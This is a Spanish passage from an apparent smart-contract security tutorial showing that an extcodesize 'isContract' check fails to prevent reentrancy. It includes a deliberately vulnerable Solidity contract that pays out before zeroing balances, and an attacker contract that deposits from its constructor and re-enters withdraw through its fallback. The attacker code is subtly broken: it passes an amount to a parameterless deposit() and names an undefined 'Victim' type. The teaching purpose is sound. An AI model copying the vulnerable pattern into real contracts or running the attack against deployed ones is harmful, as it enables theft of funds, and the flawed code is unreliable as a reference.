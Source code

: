 Uno podría considerar derrotar el reentrada simplemente evitando que los contratos inteligentes interactúen con su código. Busca stackoverflow, y encontrarás este fragmento de código con toneladas de votos positivos:

```solidity
function isContract(address addr) internal returns (bool) {
  uint size;
  assembly { size := extcodesize(addr) }
  return size > 0;
}
```

Parece tener sentido: los contratos tienen código, si la persona que llama tiene algún código, no permita que lo deposite. Vamos a agregarlo:

```solidity
// ESTE CONTRATO TIENE VULNERABILIDADES INTENCIONALES, NO COPIAR
contract ContractCheckVictim {
    mapping (address => uint256) public balances;

    function isContract(address addr) internal returns (bool) {
        uint size;
        assembly { size := extcodesize(addr) }
        return size > 0;
    }

    function deposit() external payable {
        require(!isContract(msg.sender)); // <- NEW LINE
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Ahora, para depositar ETH, no debe tener un código de contrato inteligente en su dirección. Sin embargo, esto se vence fácilmente con el siguiente contrato de atacante:

```solidity
contract ContractCheckAttacker {
    constructor() public payable {
        ContractCheckVictim(VICTIM_ADDRESS).deposit(1 ether); // <- New line
    }

    function beginAttack() external payable {
        ContractCheckVictim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
	    if (gasleft() > 40000) {
		    Victim(VICTIM_ADDRESS).withdraw();
	    }
   }
}
```
